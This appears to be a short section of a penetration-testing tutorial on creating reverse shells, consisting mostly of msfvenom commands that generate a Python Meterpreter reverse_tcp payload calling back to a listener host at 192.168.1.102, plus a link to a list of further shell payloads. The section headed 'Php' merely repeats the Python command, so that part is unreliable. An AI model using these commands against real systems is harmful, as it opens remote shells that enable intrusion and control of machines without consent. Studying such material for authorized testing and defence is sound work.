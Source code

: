 # Creating reverse-shells


In the chapter Basics I linked to some reverse shells. Another way to create reverse shells is by using msfvenom.

Here is a good list for creating shells with msfvenom. 
http://netsec.ws/?p=331

## Python

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

## Php

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

